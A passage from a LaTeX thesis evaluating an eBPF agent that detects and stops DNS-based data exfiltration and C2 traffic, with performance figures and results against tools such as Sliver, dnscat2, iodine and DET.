    
\includegraphics[width=\textwidth,height=0.68\textwidth]{UWThesis/images/results/throughput/latency_metrics_onnx.png}
    \caption{eBPF Agent: DNS Latency, GSLD LRU Miss, ONNX (10k req/s)}
    \label{fig:latency_onnx}
  \end{minipage}
\end{figure}

\subsubsection{eBPF agent Request Throughput and Latency Metrics in Passive Mode}
The primary evaluation metric in passive mode is the volume of DNS-based data exfiltration successfully prevented before terminating malicious processes. In this mode, the agent employs a clone-and-redirect mechanism, allowing original DNS packets to pass through while kernel programs inspect traffic for signs of malicious activity. Upon detection, the kernel notifies the eBPF agent to kill the responsible process. Traditional throughput and latency are not emphasized; instead, performance is measured by how effectively the system detects and stops beaconing implants that transmit data over DNS, often across random UDP ports. \hyperref[fig:data_loss_prev]{Figure 5.9} illustrates the total volume of exfiltrated data stopped by the eBPF agent before the end of the process. For example, DNSCat2, configured with a 20 second beaconing interval and exfiltrating through various types of DNS records (MX, TXT, CNAME, HTTP, SRV, etc.), demonstrated the system’s strength in delaying termination just enough to observe beacon patterns, allowing network administrators to tune termination thresholds for maximum insight.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.6\textwidth]{UWThesis/images/results/data_loss_passive/exfil_stopped_passive_data_prevented_and_kill.png}
\caption{eBPF Agent: Volume of DNS exfiltrated data prevented vs various process kill thresholds}
  \label{fig:data_loss_prev}
\end{figure}

% \begin{table}[ht]
% \centering
% \caption{Evaluation of DNS Exfiltration and C2 Tool Detection}
% \begin{tabular}{|l|l|p{5cm}|p{4.5cm}|}
% \hline
% \textbf{Tool Name} & \textbf{Exfiltration Technique} & \textbf{Measured Results} & \textbf{Comments} \\
% \hline
% Iodine & DNS Tunneling & Around 100\% accuracy in detecting and preventing tunnels in real time (all virtual interfaces, any random port) & -- \\
% \hline
% DNScat2 & DNS C2 & Around 100\% accuracy in stpping breaches and terminating C2 channels in real time (all virtual interfaces, any random port) & Detects both slow-rate and fast-rate exfiltration \\
% \cline{2-4}
% & DNS Tunneling & Similar accuracy; detects SOCKS5, SSH, HTTP, or any protocol tunnels over DNS (standard and non-standard ports) & -- \\
% \hline
% Sliver & DNS C2 & Similar accuracy; detects SOCKS5, SSH, HTTP, or any protocol tunnels over DNS (standard and non-standard ports) & -- \\
% \hline
% Dns Exfiltrator & Raw Exfiltration & Fully detects and prevents high-throughput exfiltration with killing the DET python processes & -- \\
% \hline
% \end{tabular}
% \label{tab:tool-evaluation}
% \end{table}


\subsubsection{eBPF agent Resource Usage}
The performance of the eBPF agent was closely monitored while running at the endpoint in the data plane, and the utilization of resources was measured in terms of memory and CPU utilization. During a 10-second DNSPerf benchmark at 10,000 DNS req/sec, with the agent in active mode redirecting all packets to userspace, the agent consumed approximately 310 MB of memory for the main process. This includes heap memory, as all LRU maps loaded by agent's process for fast lookups. At a higher throughput of 100,000 DNS requests/sec, memory usage remained nearly the same, peaking at 350 MB. \hyperref[fig:mem10k]{Figure 5.10},  \hyperref[fig:mem100k]{Figure 5.11} illustrates the memory usage for the previously explained DNS request throughput. Throughout the benchmark, the agent process consistently consumed only 8–10\% CPU at peak load and remained below 2\% when the system was idle. Memory usage during idle conditions stabilized around 120 MB. These results demonstrate that the agent is highly lightweight, with minimal CPU and memory footprints and no observable impact on other processes running on the endpoint. Considering that the CPU usage for the injected eBPF programs in the kernel peaked at 1.2\% at peak load, while for the idle system it remained below 0.2\%. In addition, the agent binary compiled size with all the explained features is around 22 MB on ARM and 24 MB on x86\_64 architectures, ensuring there is minimal storage impact on the endpoint caused by the eBPF agent.

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.48\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/mem_usage/memory_usage10k.png}
    \caption{eBPF Agent Process Memory Usage for 10k DNS req/sec}
    \label{fig:mem10k}
  \end{minipage}
  \hfill
  \begin{minipage}[b]{0.48\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/mem_usage/memory_usage_mass100k.png}
    \caption{eBPF Agent Process Memory Usage for 100k DNS req/sec}
    \label{fig:mem100k}
  \end{minipage}
\end{figure}

\subsection{eBPF agent effectiveness over DNS exfiltration tools}
The eBPF agent was evaluated across all data plane endpoints against widely used, high-reputation DNS-based C2 frameworks commonly leveraged by red teams in production for penetration testing. The tests focused on detecting and disrupting C2 and exfiltration activities tunneled through DNS. The CSSVLAB06 node acted as the primary attacker, issuing commands through a DNS server to the nodes of the targeted data plane.
The Sliver C2 framework, developed by BishopFox, was evaluated not only for basic data exfiltration, but also for its support of advanced C2 operations. These included remote shell access, remote code execution, file transfers, remote port forwarding, and establishing persistent backdoors via dynamically opened ports, all encapsulated within DNS traffic. The eBPF agent enforced kernel-level mitigation from the very first C2 command, immediately breaking the communication channel, forcing implant retries, and ultimately terminating the implant process. This was applied to both beacon-based and session-based implants.
Although Sliver does not support DNS C2 over randomized UDP ports, the agent’s ability to handle transport layer obfuscation was evaluated using dnscat2, which supports such techniques. The same set of C2 vectors was executed with the agent running in both active and passive modes. In both cases, the agent successfully enforced the mitigation policies, resulting in full-session downtime without exfiltration.
For raw data exfiltration scenarios, tools like DET, which lack UDP port randomization capabilities, were used. With the agent operating in active mode, raw exfiltration attempts were immediately blocked with zero data loss, and the offending processes were terminated. In addition, DNS tunneling tools such as iodine were tested for their ability to tunnel arbitrary protocols through DNS utilizing kernel encapsulation through TUN/TAP network interfaces. The agent effectively intercepted and dropped the encapsulated payloads, confirming its ability to prevent a broad spectrum of DNS-based exfiltration and tunneling strategies. In addition, other tools that exploit bulk exfiltration were also evaluated, and the agent successfully prevented all basic raw exfiltration attempts.
\hyperref[tab:dns-framework-coverage]{Figure 5.12} illustrates the attack vectors prevented and all the tools evaluated. 


\newpage
\begin{figure}[H]
  
\includegraphics[width=1\textwidth]{UWThesis/images/results/C2_exfil_strength.png}
  \caption{Framework Coverage Against Real-World DNS-Based C2 and Exfiltration Tools}
\label{tab:dns-framework-coverage}
\end{figure}

\vspace{-25pt}
\subsubsection{Control Plane}
The evaluation of the stateless controller server focuses on its effectiveness in accurately consuming threat events transmitted from data plane nodes to a Kafka topic, blacklisting domains in RPZ, and redistributing those events to data plane nodes to rehydrate their malicious domain caches. \hyperref[fig:controller_metric]{Figure 5.13} illustrates the structure of threat events streamed from eBPF agents in the data plane, serialized as JSON, and published to a Kafka topic. These events are consumed by the controller and used to blacklist domains in the RPZ zone of the DNS server. \hyperref[fig:controller_aware_metric]{Figure 5.14} shows the published threat event structure by the controller on the Kafka topic (exfil-sec-infer-controller) for the data plane nodes to consume. As explained previously, the controller’s published events also include Layer 3 (IPv4/IPv6) addresses of remote C2 nodes. This enables agents in the data plane to enforce cross-protocol correlation by dynamically injecting L3 filtering rules into the kernel. This design not only blocks DNS-based DGA communication, but also halts all protocol-level traffic to malicious IPs, offering strong protection from distributed threats and elevating system-level security enforcement directly inside the kernel.


\begin{figure}[H]
  \centering
  \begin{minipage}[t]{0.47\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/controller_consumed_threat_event.png}
\caption{Controller consumed threat event}
  \label{fig:controller_metric}
  \end{minipage}
  \hfill
  \begin{minipage}[t]{0.47\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/controller_informed_threat_event.png}
    \caption{Controller streamed threat event}
     \label{fig:controller_aware_metric}
  \end{minipage}
\end{figure}

\subsubsection{Distributed Infrastructure}
The performance evaluation of the distributed infrastructure focuses solely on the DNS server, specifically evaluating the throughput impact of the Lua-based interceptor running on the PowerDNS Recursor. As shown in \hyperref[fig:throughput_gsld_tcp]{Figure 5.15}, the server was benchmarked under a sustained load of 10,000 DNS requests per second. Due to reuse of the same inference server design as in the data plane - together with reliance on UNIX sockets for interprocess communication and Python’s internal concurrency limitations - throughput dropped to as low as 490 DNS requests per second. The latency measurements, illustrated in \hyperref[fig:throughput_onnx_tcp]{Figure 5.16}, peaked at approximately 750ms, with the mean deviation stabilizing around 380ms.
All TCP traffic benchmarks in the kernel were conducted with \texttt{TCP\_FAST\_OPEN} enabled, allowing application data to be sent with the initial SYN packet. This reduced the impact of the TCP 3-way handshake on throughput and enabled accurate latency measurements for DNS-over-TCP traffic.
In addition, \hyperref[fig:dns_rpz]{Figure 5.17} shows the resulting blacklisted domains stored in the PowerDNS GPSQL backend. The controller supplements this list with additional metadata, allowing for selective unblocking of domains based on operational requirements. In such cases, the controller initiates a forced reprogramming of all data plane nodes, overriding local suspicion heuristics to permit DNS traffic for the specified domain.



\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{UWThesis/images/results/tcp/throughput_active_onnx_tcp.png}
  \caption{DNS Server Throughput for 10k DNS req/sec over TCP}
  \label{fig:throughput_gsld_tcp}
\end{figure}

\begin{figure}[H]
  \centering
